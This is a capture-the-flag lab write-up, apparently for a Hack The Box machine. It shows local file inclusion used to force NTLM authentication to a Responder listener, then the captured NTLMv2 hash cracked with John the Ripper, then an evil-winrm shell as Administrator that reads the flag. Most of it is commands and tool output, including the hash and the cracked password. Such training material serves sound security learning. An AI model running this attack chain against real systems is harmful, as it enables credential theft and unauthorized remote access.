



# CSRF & LFI

- NMAP!

```bash
┌─[flodge@parrot]─[/etc]
└──╼ $nmap -sV -sV 10.129.171.86 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-07 22:52 GMT
Nmap scan report for unika.htb (10.129.171.86)
Host is up (0.026s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.80 seconds
```

- Port 80 is hosting a website.
- Copy the IP into the URL bar.
- Website not found!
- Add the domain name to the host file and refresh the page.
- Change the language of the page.
- Notice that the page uses the ‘include()’ command in their php to fetch subdomains.
- Attempt LFI on the URL to probe for hidden pages.



This shows that LFI is possible

- Another way to do this is to fuzz for a directory using a windows LFI wordlist



This output means the same as the image above but its a more braindead way of doing it

This is a link to the wordlist used:

[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Windows-adeadfed.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Windows-adeadfed.txt)

- Use the responder program to intercept NetNTLM responses from the server.

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
It is a type of single sign-on (SSO) because it allows the user to provide the underlying authentication factor
only once, at login.
The NTLM authentication process is done in the following way :

1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the
server.
4. The server retrieves the user password (or equivalent).
5. The server uses the hash value retrieved from the security account database to encrypt the challenge
string. The value is then compared to the value received from the client. If the values match, the client
is authenticated.

```bash
┌──[flodge@parrot]─[~]
└──╼ $sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.2]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-OAAI5STE2YE]
    Responder Domain Name      [G0MW.LOCAL]
    Responder DCE-RPC Port     [49616]

[+] Listening for events...
```

It is now hosting a website of its own which you can redirect the Unika website to have its NetNTLM hash intercepted by Responder, this will give us valuable information.

 

- Redirect the page to the ip address of Responder by utilising LFI.



No page will be found but that’s fine

- Return to the terminal and Responder will display some information about their NetNTLM service:

```bash
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.171.86
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:c5904aa7667b2069:70C2C15069BE497723
9E995FD3C6BB40:010100000000000080C98B73D811DA0117A481354394DA1C0000000002000800470030004
D00570001001E00570049004E002D004F0041004100490035005300540045003200590045000400340057004
9004E002D004F0041004100490035005300540045003200590045002E00470030004D0057002E004C004F004
30041004C0003001400470030004D0057002E004C004F00430041004C0005001400470030004D0057002E004
C004F00430041004C000700080080C98B73D811DA01060004000200000008003000300000000000000001000
00000200000CB889F074701ACACB2920381D9D397C65E7E79B759B502140D8A2333B4ACFFF40A00100000000
00000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002
E0032000000000000000000
[+] Exiting... 
```

Responder has intercepted information including the name of the Responder service on the machine, and a hashed password for the account.

- Add the hash to a text file named hash.txt.
- Run the hash through John The Ripper with a good wordlist to crack the account password.

```bash
┌──[flodge@parrot]─[~]
└──╼ $sudo john -w=/usr/share/wordlists/rockyou.txt hash.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)
1g 0:00:00:00 DONE (2023-11-08 00:35) 16.66g/s 68266p/s 68266c/s 68266C/s adriano..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

This gives us the password of ‘badminton’ to the Administrator account.

- Use evil-winrm to Remotely access the Administrator desktop.

```bash
cd evil-winrm && ruby evil-winrm.rb -i 10.129.171.86 -u 'Administrator' -p 'badminton'
```

- Navigate WinRM to find the flag.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\
*Evil-WinRM* PS C:\> dir
    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         12/7/2019   1:14 AM                PerfLogs
d-r---          4/1/2022   1:07 PM                Program Files
d-r---         8/24/2021   5:02 PM                Program Files (x86)
d-r---          3/9/2022   5:33 PM                Users
d-----          4/1/2022   1:00 PM                Windows
d-----          3/9/2022   5:29 PM                xampp
*Evil-WinRM* PS C:\> cd users\
*Evil-WinRM* PS C:\users> dir
    Directory: C:\users
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public
*Evil-WinRM* PS C:\users> cd mike
*Evil-WinRM* PS C:\users\mike> dir
    Directory: C:\users\mike
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/10/2022   4:51 AM                Desktop
*Evil-WinRM* PS C:\users\mike> cd Desktop
*Evil-WinRM* PS C:\users\mike\Desktop> dir
    Directory: C:\users\mike\Desktop
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/10/2022   4:50 AM             32 flag.txt
*Evil-WinRM* PS C:\users\mike\Desktop> type flag.txt
ea81b7afddd03efaa0945333ed147fac
```

Now try the three difficulty levels of CSRF on Metasploitable

here is a walkthrough should you need it:

[https://medium.com/@preranakhanal42/csrf-dvwa-walkthrough-106b318c7b1f](https://medium.com/@preranakhanal42/csrf-dvwa-walkthrough-106b318c7b1f)